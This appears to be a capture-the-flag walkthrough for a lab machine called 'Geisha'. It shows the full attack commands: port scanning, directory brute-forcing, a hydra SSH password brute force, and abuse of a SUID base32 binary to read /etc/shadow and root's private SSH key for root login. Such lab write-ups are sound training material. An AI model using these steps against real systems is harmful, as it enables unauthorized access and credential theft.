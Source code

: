 # Geisha

## Nmap

```
sudo nmap 192.168.152.82 -p- -sS -sV                            

PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
7080/tcp open     ssl/empowerid LiteSpeed
7125/tcp open     http          nginx 1.17.10
8088/tcp open     http          LiteSpeed httpd
9198/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

This one is a little bit tricky as we have multiple web servers which all appear to land us on the same page:

![](<../../../.gitbook/assets/image (1193).png>)

I put all the web server ports and addresses into a text file called list.txt and used `dirsearch.py` to run through each target.

```
python3 dirsearch.py -l list.txt  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 60 --full-url
```

After some time we get an interesting hit on port 7125.

![](<../../../.gitbook/assets/image (1194).png>)

I browsed to the URL and downloaded passwd.

![](<../../../.gitbook/assets/image (1195).png>)

From this we do know the user geisha exists on the system and can start to brute force the user. Running hydra against `SSH` we soon get a valid hit.

```
hydra -l geisha -P /usr/share/wordlists/rockyou.txt ssh://192.168.152.82
```

![](<../../../.gitbook/assets/image (1196).png>)

We now have `SSH` access as the user.

![](<../../../.gitbook/assets/image (1197) (1).png>)

As per usual I transferred over `linpeas` to the machine and after running we have identified the SUID bit being set on the base32 binary.

![](<../../../.gitbook/assets/image (1198).png>)

According to [GTFOBins ](https://gtfobins.github.io/gtfobins/base32/)we can take advantage of this to perform privileged file reads.

![](<../../../.gitbook/assets/image (1199).png>)

Initially I used this to read the /etc/shadow file. However, I was unable to crack the password with rockyou.txt.

![](<../../../.gitbook/assets/image (1201).png>)

Now we could use this to read the proof.txt flag but, we are not really done until we gain a root shell. I decided to have a stab at the root account having a id\_rsa key.

```
/usr/bin/base32 /root/.ssh/id_rsa | base32 --decode
```

![](<../../../.gitbook/assets/image (1202).png>)

I then transferred the key over to my attacking machine and used `chmod` to set appropriate permissions.

```
chmod 600 id_rsa
```

Then used the id\_rsa key to connect in as root on SSH.

```
ssh -i id_rsa root@192.168.152.82 
```

![](<../../../.gitbook/assets/image (1203) (1).png>)
